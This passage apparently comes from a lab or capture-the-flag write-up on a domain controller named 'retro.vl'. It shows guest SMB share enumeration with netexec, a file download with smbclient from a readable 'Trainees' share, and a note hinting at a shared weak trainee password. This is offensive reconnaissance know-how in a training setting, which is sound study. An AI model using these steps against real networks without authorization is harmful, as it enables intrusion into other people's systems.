 ```
netexec smb 10.10.83.167 -u 'test' -p '' --shares

SMB         10.10.83.167    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC               [+] retro.vl\test: (Guest)
SMB         10.10.83.167    445    DC               [*] Enumerated shares
SMB         10.10.83.167    445    DC               Share           Permissions     Remark
SMB         10.10.83.167    445    DC               -----           -----------     ------
SMB         10.10.83.167    445    DC               ADMIN$                          Remote Admin
SMB         10.10.83.167    445    DC               C$                              Default share
SMB         10.10.83.167    445    DC               IPC$            READ            Remote IPC
SMB         10.10.83.167    445    DC               NETLOGON                        Logon server share
SMB         10.10.83.167    445    DC               Notes
SMB         10.10.83.167    445    DC               SYSVOL                          Logon server share
SMB         10.10.83.167    445    DC               Trainees        READ

```

The enumeration reveals that the `Trainees` share is readable by guest users, providing an immediate avenue for information gathering without authentication.

### Information Gathering from Trainees Share

```
smbclient \\\\10.10.83.167\\Trainees -U ''

Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 23 23:58:43 2023
  ..                                DHS        0  Wed Jul 26 11:54:14 2023
  Important.txt                       A      288  Mon Jul 24 00:00:13 2023

                6261499 blocks of size 4096. 2230610 blocks available

smb: \> get Important.txt
getting file \Important.txt of size 288 as Important.txt (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
```

### Critical Intelligence Discovery

Let’s read the file content.

```
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```
